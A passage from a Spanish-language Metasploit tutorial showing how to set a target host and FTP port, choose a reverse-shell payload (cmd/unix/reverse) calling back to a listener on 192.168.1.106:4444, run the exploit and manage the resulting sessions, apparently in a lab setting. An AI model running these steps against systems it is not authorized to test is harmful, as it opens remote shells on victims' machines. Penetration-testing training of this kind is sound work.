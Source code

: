 
#### ✅ Paso 4: Ver opciones del módulo

```bash
show options
```

Esto muestra las variables necesarias como:

- RHOST → IP de la víctima
- RPORT → Puerto objetivo
- PAYLOAD → (si aplica)

---

#### ✅ Paso 5: Configurar las opciones necesarias

```bash
set RHOST 192.168.1.105
set RPORT 21
```

Si deseas cambiar el payload:

```bash
set payload cmd/unix/reverse
set LHOST 192.168.1.106
set LPORT 4444
```

---

#### ✅ Paso 6: Ejecutar el módulo

```bash
exploit
```

o

```bash
run
```

---

### 🧠 Gestión adicional: sesiones

Si obtuviste acceso, puedes tener una sesión activa.

#### Ver sesiones:

```bash
sessions
```

#### Interactuar con una sesión específica:

```bash
sessions -i 1
```
